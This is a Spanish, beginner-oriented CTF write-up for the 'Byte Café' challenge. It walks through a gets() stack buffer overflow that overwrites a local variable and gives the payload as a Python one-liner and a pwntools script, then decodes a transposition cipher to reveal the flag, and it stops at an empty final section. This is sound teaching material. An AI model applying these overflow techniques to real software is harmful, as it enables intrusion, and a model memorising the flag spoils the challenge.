








# Byte Café — Writeup

| Campo      | Valor                    |
|------------|--------------------------|
| CTF        | CIDSI                    |
| Categoría  | Exploiting               |
| Puntos     | 140                      |
| Archivo    | `byte_Cafe` (20104 bytes) |
| Flag       | `CAFECONLECHE_YTORTA` |

> *"Solo quienes logren liberar el poder de una variable atrapada entre las sombras del código revelarán el secreto escondido. Autor: warrior"*

> Este write-up está pensado para alguien que **nunca** ha hecho explotación de binarios. Voy despacio y explico cada término (RBP, little-endian, pipe…) la primera vez que aparece. Si ya sabes algo, sáltatelo.

---

## 1. Introducción

### 1.1 ¿Qué tipo de reto es este?

Es un reto de **explotación de binarios**. En vez de decodificar datos (como en Spy Games), aquí hay un **programa ejecutable** que se comporta de cierta forma, y nuestro trabajo es **hacer que se comporte de otra** para que nos suelte la flag.

El truco concreto se llama **buffer overflow** (desbordamiento de búfer). La idea, en una frase:

> El programa reserva una caja para guardar lo que escribes, pero **no comprueba cuánto escribes**. Si escribes de más, el texto "se sale" de su caja y **pisa la variable de al lado**. Nosotros vamos a pisar una variable a propósito para cambiar su valor.

### 1.2 ¿Qué necesitamos saber de antemano?

Solo tres conceptos, y los explico aquí mismo. No hace falta nada más.

**Qué es la memoria de una función (el "stack" o pila).**
Cuando un programa entra en una función (como `main`), reserva un trozo de memoria para sus variables locales. Imagínalo como una **estantería** donde cada variable ocupa un hueco. Esos huecos están **pegados unos a otros**. Esta estantería se llama *stack* (pila).

**Qué es RBP.**
`RBP` es un **registro** del procesador (un registro es una variable ultrarrápida dentro de la CPU). En 64 bits, `RBP` se usa como **punto de referencia fijo** de la función: apunta a la base de la estantería. Todas las variables locales se direccionan como "RBP menos tanto". En el ensamblador de este binario verás, por ejemplo, `[RBP + -0x3f0]` (el buffer) y `[RBP + -0x4]` (nuestro interruptor).

> ⚠️ **Ojo con dos vistas de Ghidra que confunden a todo el mundo la primera vez** (lo detallo en la sección 2.4, que es justo lo que preguntabas: *¿dónde se ve el RBP?*):
> - La ventana **Decompile** muestra solo *nombres* que Ghidra inventa: `local_3f8` y `local_c`. **Ahí no aparece la palabra `RBP` por ningún lado.** Por eso puedes leer todo el pseudo-código sin ver nunca un `rbp-`.
> - La ventana **Listing** (el ensamblador, a la izquierda del Decompile) es donde el `RBP` se ve de verdad: `[RBP + -0x3f0]`, `[RBP + -0x4]`.
> - Y cuidado con una trampa: **el número del nombre NO es el offset de RBP.** Ghidra llama `local_3f8` a la variable que en realidad está en `rbp-0x3f0`, y `local_c` a la que está en `rbp-0x4` (el número del nombre = offset real **+ 8**; el porqué, en la sección 2.4).



> 💡 Regla mental: **cuanto más grande es el número después de `rbp-`, más lejos (más abajo) está la variable.** `rbp-0x3f0` está mucho más abajo que `rbp-0x4`.

**Qué es un pipe (`|`).**
En la terminal, el símbolo `|` (pipe, "tubería") **conecta la salida de un programa con la entrada de otro**. Cuando escribimos `programaA | programaB`, lo que `programaA` imprime se convierte en lo que `programaB` "teclea". Lo usaremos para **darle nuestro texto al binario sin escribirlo a mano**, porque nuestro texto tendrá caracteres que no se pueden teclear (como el byte cero).

---

## 2. Reconocimiento en Ghidra

### 2.1 Qué es Ghidra y por qué la usamos

Ghidra es un **decompilador**: coge un programa ya compilado (que está en lenguaje máquina, ilegible) e intenta reconstruir un **pseudo-código parecido a C**. No es el código original exacto, pero se le acerca lo suficiente para entender qué hace el programa. Es como traducir un texto del que solo tenemos la versión en un idioma que no hablamos.

### 2.2 Primer vistazo al archivo (antes de abrir Ghidra)

Siempre conviene mirar el binario "por fuera" antes de decompilarlo:

```bash
$ file byte_Cafe
byte_Cafe: ELF 64-bit LSB pie executable, x86-64, ... with debug_info, not stripped
```

Traducción de lo importante:

| Dato              | Qué significa para nosotros                                                        |
|-------------------|-----------------------------------------------------------------------------------|
| `ELF 64-bit`      | Ejecutable de Linux, de 64 bits. Las direcciones ocupan 8 bytes.                  |
| `pie`             | *Position Independent Executable*. El programa se carga en una dirección aleatoria cada vez (lo veremos en el anexo; **para este reto no molesta**). |
| `not stripped`    | **Buenas noticias:** conserva los nombres de las funciones (`main`, `decodificar_transposicion`). |
| `with debug_info` | Conserva incluso los nombres de las variables. Aún mejor.                          |

> **Por qué importa `not stripped`:** en muchos retos los nombres se borran y ves `FUN_00101189`. Aquí el autor nos dejó los nombres, así que el trabajo es más cómodo.

### 2.3 Pasos concretos en Ghidra

1. **Abrir Ghidra** y crear un proyecto nuevo (`File → New Project → Non-Shared Project`).
2. **Importar el binario**: arrastra `byte_Cafe` a la ventana del proyecto, o `File → Import File`.
3. **Doble clic** en el binario. Ghidra pregunta si quieres analizarlo → **Yes**, y deja marcadas las opciones por defecto → **Analyze**.
4. Cuando termine, en la ventana izquierda **Symbol Tree → Functions** verás la lista de funciones. Aparecen `main` y `decodificar_transposicion`.
5. **Doble clic en `main`**. A la derecha, en la ventana **Decompile**, aparece el pseudo-código en C. Eso es lo que vamos a leer.

Lo que esperamos obtener de este paso: **el pseudo-código de `main`** y saber que existe una función con nombre sospechoso, `decodificar_transposicion` ("decodificar transposición"), que huele a que construye la flag.

### 2.4 ¿Dónde se ve el `RBP`? Decompile vs Listing (la duda más común)

Si has leído "`rbp-0x3f0`" y piensas *"yo en Ghidra nunca vi ningún RBP"*, es normal: **el `RBP` no está en la ventana que sueles mirar.** Ghidra tiene dos vistas de la misma función, una al lado de la otra:

| Ventana | Qué te enseña | ¿Sale el `RBP`? | Cómo abrirla |
|---------|---------------|-----------------|--------------|
| **Decompile** (derecha) | Pseudo-código en C, con nombres como `local_3f8`, `local_c` | **No.** Ghidra ya "tradujo" los `rbp-...` a nombres de variable | Es la que aparece por defecto al hacer doble clic en `main` |
| **Listing** (centro/izquierda) | El ensamblador real, instrucción por instrucción | **Sí.** Aquí ves `[RBP + -0x3f0]`, `[RBP + -0x4]` | Está siempre abierta a la izquierda del Decompile. Si no la ves: `Window → Listing` |

**Truco de oro:** si en el Decompile haces **clic en una variable** (por ejemplo en `local_3f8`), Ghidra **resalta en el Listing** la línea de ensamblador correspondiente. Así enlazas el nombre bonito con su `rbp-...` real. También puedes **pasar el ratón por encima** del nombre en el Decompile: aparece un tooltip que dice algo como `Stack[-0x3f0]:1004`, que es la dirección de verdad.

Estas son las líneas exactas del **Listing** de este binario (las que justifican todo el exploit):

```asm
; --- inicio de main ---
PUSH   RBP
MOV    RBP,RSP
SUB    RSP,0x3f0                 ; reserva 1008 bytes para las variables locales
MOV    dword ptr [RBP + -0x4],0x0   ; local_c = 0        <-- interruptor en rbp-0x4
...
LEA    RAX=>local_3f8,[RBP + -0x3f0]  ; &buffer          <-- buffer en rbp-0x3f0
MOV    RDI,RAX
CALL   gets
CMP    dword ptr [RBP + -0x4],0x0   ; if (local_c != 0)  <-- mismo rbp-0x4
JZ     ...
CMP    dword ptr [RBP + -0x4],0x5   ; if (local_c == 5)  <-- mismo rbp-0x4
```

> Fíjate en la línea `LEA RAX=>local_3f8,[RBP + -0x3f0]`: Ghidra te muestra **las dos cosas a la vez**, el nombre (`local_3f8`) y la dirección real (`RBP + -0x3f0`). Ahí se ve, sin lugar a dudas, que "local_3f8" **no** está en `rbp-0x3f8`.

**¿Por qué el nombre lleva +8 respecto al offset real?** Ghidra numera las variables desde un punto de referencia que está 8 bytes por encima de `RBP` (justo donde quedó el `RBP` antiguo que se guardó con `PUSH RBP`). Por eso a la variable en `rbp-0x3f0` la llama `local_3f8` (0x3f0 + 8) y a la de `rbp-0x4` la llama `local_c` (0x4 + 8). Es solo una **convención de nombres de Ghidra**; no cambia dónde está la variable de verdad. La buena noticia: como las **dos** variables llevan el mismo +8, al restarlas se cancela y el offset sale igual (`0x3f0 − 0x4 = 0x3f8 − 0xc = 1004`). Por eso el exploit funciona aunque el número del nombre despiste.

---

## 3. Análisis del `main`

Este es el código que Ghidra nos da:

```c
undefined8 main(void)
{
  char local_3f8 [1004];   // <- nuestra "caja" / buffer de 1004 bytes
  int  local_c;            // <- la variable que queremos manipular

  local_c = 0;             // (1) se pone a 0 y NUNCA se vuelve a asignar
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts(&DAT_0010201e);     // imprime "¡Bienvenido a Byte Café!"
  puts(&DAT_00102039);     // imprime "¿Qué quieres Byte hoy?"
  gets(local_3f8);         // (2) LEE nuestra entrada SIN límite -> aquí está el fallo
  if (local_c != 0) {      // (3) si local_c NO es cero -> decodifica la flag
    decodificar_transposicion();
  }
  if (local_c == 5) {      // (4) si local_c vale exactamente 5 -> imprime "_YTORTA"
    puts("_YTORTA");
  }
  return 0;
}
```

Vamos línea por línea, con el **porqué** de cada cosa.

### 3.1 Las dos variables clave

```c
char local_3f8[1004];   // buffer donde cae lo que escribimos
int  local_c;           // "interruptor" que decide si vemos la flag
```

- `local_3f8` es un **array de 1004 caracteres**. Ghidra lo llama así por convención, pero en el ensamblador (Listing) vive en `rbp-0x3f0` (0x3f0 = 1008 en decimal). Lo ves en la línea `LEA RAX=>local_3f8,[RBP + -0x3f0]`.
- `local_c` es un **entero** (`int`, 4 bytes). En el ensamblador está en `rbp-0x4` (0x4 = 4). Es la línea `MOV dword ptr [RBP + -0x4],0x0` del principio de `main`.

### 3.2 El interruptor que nunca cambia (la puerta de entrada al bug)

```c
local_c = 0;   // se inicializa a 0
// ...y en TODO el resto de main, nadie vuelve a escribir local_c
```

Esto es lo más importante del reto. Fíjate:

- `local_c` empieza valiendo **0**.
- El programa **nunca** le vuelve a dar un valor.
- Pero **su valor decide si vemos la flag** (líneas 3 y 4).

Entonces, de forma "normal", `local_c` siempre vale 0, nunca se cumple `local_c != 0`, y nunca vemos nada. **El programa está diseñado para no darte la flag jamás… a menos que hagas trampa.** Y la trampa es el overflow.

> **Analogía:** imagina una máquina expendedora con un botón secreto detrás de una pared. El botón, si lo pulsas, suelta el premio. Pero no hay forma de llegar a él… salvo que empujes la pared de al lado hasta que se doble y toque el botón. La "pared" es nuestro buffer; el "botón" es `local_c`.

### 3.3 El fallo: `gets()`

```c
gets(local_3f8);
```

`gets()` es una función que **lee texto del teclado y lo guarda** en el buffer que le pasas. Su problema, y la razón por la que está **prohibida** en código real, es que:

> `gets()` **no sabe cuánto mide el buffer**. Sigue escribiendo hasta que encuentra un salto de línea (Enter), aunque el buffer se le quede pequeño.

Es decir, si el buffer mide 1004 bytes pero le damos 1010 bytes, `gets()` escribe los 1010 igualmente: los 1004 primeros dentro de la caja, y los **6 restantes fuera**, pisando lo que haya al lado. Y al lado, un poco más allá, está `local_c`.

### 3.4 Las dos condiciones que dan la flag

```c
if (local_c != 0) { decodificar_transposicion(); }   // condición A
if (local_c == 5) { puts("_YTORTA"); }               // condición B
```

- **Condición A:** si `local_c` es distinto de 0, llama a `decodificar_transposicion()`, que (lo veremos en la sección 7) imprime `primer parte de la flag: CAFECONLECHE`.
- **Condición B:** si `local_c` vale exactamente 5, imprime además `_YTORTA`.

Aquí está la jugada elegante: **si conseguimos que `local_c` valga 5, se cumplen las DOS condiciones a la vez** (5 es distinto de 0, y 5 es igual a 5). Así disparamos todo de una sola vez.



**Nuestro objetivo queda claro:** escribir tanto texto que rebosemos el buffer y dejemos `local_c` valiendo exactamente **5**.

---

## 4. Cálculo del offset

El **offset** ("desplazamiento") es *cuántos bytes de relleno* tenemos que escribir para llegar justo hasta `local_c`. Es el número más importante del exploit: si nos pasamos o nos quedamos cortos, no funciona.

### 4.1 De dónde salen los números

El **ensamblador** (ventana Listing, ver sección 2.4) nos da la posición real de cada variable respecto a `RBP`:

| Variable (nombre Ghidra) | Dirección real   | En decimal  |
|--------------------------|------------------|-------------|
| buffer (`local_3f8`)     | `rbp-0x3f0`      | rbp − 1008  |
| interruptor (`local_c`)  | `rbp-0x4`        | rbp − 4     |

El buffer **empieza** en `rbp-1008` y ocupa 1004 bytes, así que llega hasta `rbp-5`. Justo después, en `rbp-4`, **empieza `local_c`**: están pegados, sin ningún hueco de relleno entre medias. La distancia entre el inicio del buffer y el inicio de `local_c` es:

```
offset = 1008 − 4 = 1004 bytes
```



### 4.2 Por qué 1004 y no 1008 o 1000

- Si escribimos **menos de 1004** bytes → no llegamos a `local_c`, sigue valiendo 0. No pasa nada.
- Si escribimos **exactamente 1004** bytes → llenamos el buffer justo hasta el borde. El **byte 1005 en adelante** ya cae dentro de `local_c`.
- Por eso el plan es: **1004 bytes de relleno + los 4 bytes del número 5**.

> **Nota:** aquí el buffer mide 1004 y el offset también es 1004. Es una coincidencia cómoda de este reto (el buffer termina justo antes de `local_c`). En otros binarios puede haber huecos de relleno ("padding") entre variables, así que **siempre** hay que calcular el offset con las direcciones, no suponerlo por el tamaño del array.

---

## 5. Construcción del payload (y qué es little-endian)

El **payload** es el texto exacto que le mandaremos al programa. Tiene dos partes:

```
[ 1004 bytes de relleno ] + [ el número 5 escrito en 4 bytes ]
```

El relleno puede ser cualquier cosa; usaremos la letra `A` (byte 0x41) 1004 veces, porque es fácil de ver si algo falla. Lo interesante es la segunda parte: **cómo se escribe el número 5**.

### 5.1 Qué es little-endian

`local_c` es un `int`, que ocupa **4 bytes**. El número 5 en esos 4 bytes es, en hexadecimal, `00 00 00 05`. Pero aquí viene la trampa clásica:

> Los procesadores x86 (Intel/AMD, los de un PC Linux normal) guardan los números en memoria **empezando por el byte menos significativo**. Esto se llama **little-endian** ("el extremo pequeño primero").

O sea, el número `5` NO se guarda como `00 00 00 05`, sino **al revés**:

```
Valor lógico:      0x00000005
En memoria (LE):   05 00 00 00
                   └┬┘
                    el byte "pequeño" (las unidades) va PRIMERO
```

Es exactamente el mismo concepto de endianness que vimos en Spy Games con UTF-16, pero aplicado ahora a un entero de 4 bytes.



> **Por qué nos importa:** si escribiéramos los bytes al revés (`00 00 00 05`), `local_c` acabaría valiendo `0x05000000` = 83.886.080, que **no es 5**. Se cumpliría la condición A (distinto de 0) pero **no** la B (igual a 5), y nos perderíamos el `_YTORTA`. El orden de los bytes cambia el número.

### 5.2 El payload final

```
payload = b"A" * 1004 + b"\x05\x00\x00\x00"
```

- `b"A" * 1004` → 1004 bytes de relleno que llenan el buffer.
- `b"\x05\x00\x00\x00"` → el número 5 en little-endian, que cae justo encima de `local_c`.

En total, 1008 bytes.

### 5.3 El gráfico del overflow, byte a byte

Aquí está lo que de verdad pasa en la memoria. Recuerda del ensamblador: el buffer está en `rbp-0x3f0` (= rbp−1008) y ocupa 1004 bytes (llega hasta rbp−5); `local_c` está pegado, en `rbp-0x4` (= rbp−4) y ocupa 4 bytes. **No hay hueco entre ellos.** Por eso el byte 1005 de nuestra entrada aterriza en el primer byte de `local_c`:



La idea en una frase: **como `gets()` no frena en el borde del buffer, seguimos escribiendo 4 bytes más allá de rbp−5, y esos 4 bytes son exactamente `local_c`.** El relleno (`'A'×1004`) no importa qué contiene; su único trabajo es *empujar* hasta que los siguientes 4 bytes caigan sobre el interruptor.

El mismo proceso, como flujo:



---

## 6. Ejecución del exploit

El problema práctico: nuestro payload contiene **bytes cero** (`\x00`), que no se pueden teclear en la terminal. La solución es **generar el payload con Python y enviárselo al binario con un pipe** (`|`).

### 6.1 La forma corta (una línea)

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*1004 + b'\x05\x00\x00\x00')" | ./byte_Cafe
```

Cómo leer esto de izquierda a derecha:

1. `python3 -c "..."` ejecuta un mini-programa Python que **construye el payload** y lo **escribe en su salida** (`sys.stdout.buffer.write` escribe bytes crudos, sin convertirlos a texto).
2. El **pipe `|`** coge todo lo que Python imprimió y se lo entrega a `./byte_Cafe` como si lo hubiéramos tecleado.
3. `./byte_Cafe` lo recibe en su `gets()`, se produce el overflow, y `local_c` acaba valiendo 5.

> **Por qué usamos `sys.stdout.buffer.write` y no `print`:** `print` trabaja con texto y puede estropear el byte `\x00` o añadir un salto de línea donde no queremos. `sys.stdout.buffer.write` escribe **exactamente** los bytes que le damos, sin tocarlos. En un exploit, el control byte a byte es sagrado.

### 6.2 Resultado esperado

```
¡Bienvenido a Byte Café!
¿Qué quieres Byte hoy?
primer parte de la flag: CAFECONLECHE
_YTORTA
```

Si ves `CAFECONLECHE`, **el exploit funcionó**: conseguimos que `local_c != 0` y se ejecutó `decodificar_transposicion()`. El `_YTORTA` confirma además que `local_c` valía **exactamente 5**.

### 6.3 Versión con pwntools (opcional, más cómoda para retos grandes)

`pwntools` es una librería de Python muy usada en CTFs para automatizar exploits:

```python
from pwn import *
p = process("./byte_Cafe")
payload = b"A"*1004 + p32(5)   # p32(5) = el 5 empaquetado en 4 bytes little-endian
p.sendline(payload)
print(p.recvall().decode())
```

`p32(5)` hace exactamente lo mismo que escribir `b"\x05\x00\x00\x00"` a mano: empaqueta un número en 4 bytes little-endian. Es la forma "profesional" de no equivocarse con el orden de los bytes.

---

## 7. Análisis de `decodificar_transposicion`

Ya tenemos la flag por pantalla, pero un buen writeup **explica de dónde sale**. Esta función descifra un texto oculto dentro del propio binario. El pseudo-código de Ghidra es feo (lleno de `puVarX` y aritmética de punteros), así que lo traduzco a algo legible.

### 7.1 Los datos escondidos en el binario

Al principio de la función, estas líneas cargan dos cadenas de texto **byte a byte** (así se evita que aparezcan como strings visibles con el comando `strings`):

```c
local_9a = 0x59454b;              // -> "KEY"  (la clave)
local_96 = 0x43484c4341;         // -> "ACLHC"
uStack_91 = 0x434e45;            // -> "ENC"
uStack_8e = 0x45454f46;          // -> "FOEE"
```

Cada número hexadecimal es un grupo de letras ASCII guardadas en **little-endian** (otra vez el mismo concepto). Por ejemplo `0x59454b` se lee de atrás hacia delante: `4b`=`K`, `45`=`E`, `59`=`Y` → **"KEY"**. Juntando las otras tres:

```
"ACLHC" + "ENC" + "FOEE" = "ACLHCENCFOEE"   (12 caracteres)
```

Así que tenemos:

| Elemento       | Valor            |
|----------------|------------------|
| Clave          | `KEY` (3 letras) |
| Texto cifrado  | `ACLHCENCFOEE` (12 letras) |

### 7.2 Qué es una transposición columnar

Una **transposición** no cambia las letras, solo **las reordena**. La *columnar* funciona con una tabla:

1. Se escribe el texto en una tabla con tantas **columnas** como letras tiene la clave (aquí 3).
2. Las columnas se **reordenan** según el orden alfabético de las letras de la clave.
3. Se lee el resultado.

Descifrar es hacer el proceso al revés. La función hace justo esto:

- **Columnas** = longitud de la clave = **3**.
- **Filas** = longitud del texto ÷ columnas = 12 ÷ 3 = **4**.

### 7.3 Paso 1 — Ordenar las columnas según la clave

La clave es `K E Y`. Ordenadas alfabéticamente: `E (1º) → K (2º) → Y (3º)`. La función averigua **en qué posición original** estaba cada letra:

| Letra clave | Posición original | Orden alfabético |
|-------------|-------------------|------------------|
| K           | 0                 | 2º               |
| E           | 1                 | 1º               |
| Y           | 2                 | 3º               |

El resultado es el orden en que se rellenan las columnas: **[1, 0, 2]** (primero la columna 1 —la de la E—, luego la 0 —la K—, luego la 2 —la Y—). El código lo hace con un *bubble sort* (el doble bucle que compara y hace `swap`).

### 7.4 Paso 2 — Rellenar la tabla por columnas

El texto cifrado `ACLHCENCFOEE` se va colocando **columna por columna**, en el orden `[1, 0, 2]`, de arriba abajo:



La tabla queda así (3 columnas, 4 filas):

| Fila | Col 0 | Col 1 | Col 2 |
|------|-------|-------|-------|
| 0    | **C** | **A** | **F** |
| 1    | **E** | **C** | **O** |
| 2    | **N** | **L** | **E** |
| 3    | **C** | **H** | **E** |

### 7.5 Paso 3 — Leer por filas

El bucle final recorre la tabla **fila por fila**, de izquierda a derecha, e imprime cada carácter (saltándose los espacios):

```
Fila 0:  C A F
Fila 1:  E C O
Fila 2:  N L E
Fila 3:  C H E
```

Leído seguido: **`CAFECONLECHE`** → *café con leche* ☕ (muy acorde con "Byte Café").

Esto coincide exactamente con lo que imprime el binario. **Confirmado.**

---

## 8. Descifrado manual de la flag

